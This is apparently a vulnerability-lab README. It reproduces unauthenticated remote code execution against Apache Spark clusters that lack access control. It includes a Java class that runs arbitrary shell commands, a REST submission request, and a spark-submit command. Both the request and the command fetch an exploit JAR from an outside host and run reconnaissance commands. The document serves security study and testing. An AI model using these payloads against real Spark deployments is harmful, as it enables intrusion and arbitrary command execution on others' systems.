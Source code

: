 # Apache Spark Unauthorized Access Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Apache Spark is a cluster computing system that allows users to submit applications to the management node for cluster execution. If the management node has not enabled ACL (Access Control List), it becomes possible to execute arbitrary code in the cluster.

Reference links:

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## Vulnerability Environment

Execute the following command to start an Apache Spark cluster in standalone mode, which includes one master and one slave:

```
docker compose up -d
```

After the environment starts, visit `http://your-ip:8080` to access the master's management page, and `http://your-ip:8081` to access the slave's management page.

## Vulnerability Reproduce

The essence of this vulnerability is that unauthorized users can submit an application to the management node, where this application is actually malicious code.

There are two ways to submit applications:

1. Using REST API
2. Using submissions gateway (integrated in port 7077)

The application can be written in Java or Python. Here's a simple example class (from reference link 1):

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

Compile it into a JAR file and host it on any HTTP or FTP server, for example: `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`.

### Submitting Application via REST API

In standalone mode, the master starts an HTTP server on port 6066. We can submit a REST-formatted API request to this port:

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

Here, `spark.jars` is the compiled application, mainClass is the class to run, and appArgs are the parameters passed to the application.

![](1.png)

The response will contain a submissionId. You can then view the execution results by visiting `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`:

![](2.png)

Note: While the application is submitted to the master, the results are viewed in the slave that actually executes the application (default port 8081). In real-world scenarios, there might be multiple slaves.

### Using the Submissions Gateway

If port 6066 is inaccessible or has access controls, we can use the master's main port 7077 to submit applications.

This can be done using Apache Spark's built-in script `bin/spark-submit`:

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

If the master parameter you specify is a REST server, this script will first try to submit the application using the REST API; if it's not a REST server, it will fall back to using the submission gateway.

The results can be viewed in the same way as described above.
